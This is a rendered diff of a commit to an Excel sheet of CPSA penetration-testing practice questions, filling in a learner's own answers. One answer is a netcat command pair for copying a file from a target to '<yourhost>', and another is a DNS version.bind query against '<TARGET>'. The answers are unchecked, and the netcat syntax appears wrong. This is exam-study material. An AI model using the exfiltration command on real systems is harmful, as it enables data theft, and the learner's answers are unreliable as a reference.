

Before and after one commit to Hackin7/ExamSnippet, an Excel workbook: Tools/Excel Management System/CPSA Questions.xlsx, sheet PracticeQns1, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no borders; charts and pictures not drawn; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/Tools/Excel Management System/CPSA Questions.xlsx (sheet PracticeQns1)
+++ b/Tools/Excel Management System/CPSA Questions.xlsx (sheet PracticeQns1)
-sheet tab: An
-D67 fill: none
+D67 fill: #FF0000
-D110 fill: none
+D110 fill: #FF0000
-D169 (MyAns): (empty)
+D169 (MyAns): 1500
-D170 (MyAns): (empty)
+D170 (MyAns): On your host run "nc -l 80 > out.txt", and on the target run "nc -r file.txt <yourhost> 80"
-D171 (MyAns): (empty)
+D171 (MyAns): layer 2
-D172 (MyAns): (empty)
+D172 (MyAns): Network Layer (3)
-D173 (MyAns): (empty)
+D173 (MyAns): Transport Layer
-D174 (MyAns): (empty)
+D174 (MyAns): Application Layer
-D176 (MyAns): (empty)
+D176 (MyAns): It is possible to enumerate active users logged in to the system
-D177 (MyAns): (empty)
+D177 (MyAns): A, B, C
-D178 (MyAns): (empty)
+D178 (MyAns): It is a networked computer system with most resources installed locally, rather than ↵ distributed over a network.
-D179 (MyAns): (empty)
+D179 (MyAns): 138
-D180 (MyAns): (empty)
+D180 (MyAns): 139
-D181 (MyAns): (empty)
+D181 (MyAns): 137
-D182 (MyAns): (empty)
+D182 (MyAns): 123
-D184 (MyAns): (empty)
+D184 (MyAns): nslookup -q=txt -class=CHAOS version.bind <TARGET>
-D185 (MyAns): (empty)
+D185 (MyAns): 4 211
-D186 (MyAns): (empty)
+D186 (MyAns): 3 All need to be set
```
Also changed, not shown: 34 edited cells and cell formats elsewhere in this sheet, sheet Questions 2, formulas that keep their value, charts or pictures, 1 other file.
